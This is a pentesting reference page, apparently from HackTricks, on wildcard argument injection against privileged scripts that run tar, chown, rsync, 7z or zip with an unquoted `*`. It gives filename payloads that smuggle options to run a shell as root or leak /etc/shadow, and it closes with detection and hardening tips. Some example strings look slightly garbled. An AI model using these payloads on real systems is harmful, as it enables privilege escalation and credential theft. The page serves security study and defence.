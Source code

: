 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (aka *glob*) **argument injection** happens when a privileged script runs a Unix binary such as `tar`, `chown`, `rsync`, `zip`, `7z`, … with an unquoted wildcard like `*`.  
> Since the shell expands the wildcard **before** executing the binary, an attacker who can create files in the working directory can craft filenames that begin with `-` so they are interpreted as **options instead of data**, effectively smuggling arbitrary flags or even commands.  
> This page collects the most useful primitives, recent research and modern detections for 2023-2025.

## chown / chmod

You can **copy the owner/group or the permission bits of an arbitrary file** by abusing the `--reference` flag:

```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```

When root later executes something like:

```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```

`--reference=/root/secret``file` is injected, causing *all* matching files to inherit the ownership/permissions of `/root/secret``file`.

*PoC & tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (combined attack).  
See also the classic DefenseCode paper for details.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Execute arbitrary commands by abusing the **checkpoint** feature:

```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```

Once root runs e.g. `tar -czf /root/backup.tgz *`, `shell.sh` is executed as root.

### bsdtar / macOS 14+

The default `tar` on recent macOS (based on `libarchive`) does *not* implement `--checkpoint`, but you can still achieve code-execution with the **--use-compress-program** flag that allows you to specify an external compressor.

```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
When a privileged script runs `tar -cf backup.tar *`, `/bin/sh` will be started. 

---

## rsync

`rsync` lets you override the remote shell or even the remote binary via command-line flags that start with `-e` or `--rsync-path`:

```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```

If root later archives the directory with `rsync -az * backup:/srv/`, the injected flag spawns your shell on the remote side.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` mode).

---

## 7-Zip / 7z / 7za

Even when the privileged script *defensively* prefixes the wildcard with `--` (to stop option parsing), the 7-Zip format supports **file list files** by prefixing the filename with `@`.  Combining that with a symlink lets you *exfiltrate arbitrary files*:

```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```

If root executes something like:

```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```

7-Zip will attempt to read `root.txt` (→ `/etc/shadow`) as a file list and will bail out, **printing the contents to stderr**.

---

## zip

`zip` supports the flag `--unzip-command` that is passed *verbatim* to the system shell when the archive will be tested:

```bash
zip result.zip files -T --unzip-command "sh -c id"
```

Inject the flag via a crafted filename and wait for the privileged backup script to call `zip -T` (test archive) on the resulting file.

---

## Additional binaries vulnerable to wildcard injection (2023-2025 quick list)

The following commands have been abused in modern CTFs and real environments.  The payload is always created as a *filename* inside a writable directory that will later be processed with a wildcard:

| Binary | Flag to abuse | Effect |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → arbitrary `@file` | Read file contents |
| `flock` | `-c <cmd>` | Execute command |
| `git`   | `-c core.sshCommand=<cmd>` | Command execution via git over SSH |
| `scp`   | `-S <cmd>` | Spawn arbitrary program instead of ssh |

These primitives are less common than the *tar/rsync/zip* classics but worth checking when hunting.

---

## Detection & Hardening

1. **Disable shell globbing** in critical scripts: `set -f` (`set -o noglob`) prevents wildcard expansion.
2. **Quote or escape** arguments: `tar -czf "$dst" -- *` is *not* safe — prefer `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Explicit paths**: Use `/var/www/html/*.log` instead of `*` so attackers cannot create sibling files that start with `-`.
4. **Least privilege**: Run backup/maintenance jobs as an unprivileged service account instead of root whenever possible.
5. **Monitoring**: Elastic’s pre-built rule *Potential Shell via Wildcard Injection* looks for `tar --checkpoint=*`, `rsync -e*`, or `zip --unzip-command` immediately followed by a shell child process. The EQL query can be adapted for other EDRs. 

---

## References

* Elastic Security – Potential Shell via Wildcard Injection Detected rule (last updated 2025)  
* Rutger Flohil – “macOS — Tar wildcard injection” (Dec 18 2024)

{{#include ../../banners/hacktricks-training.md}}
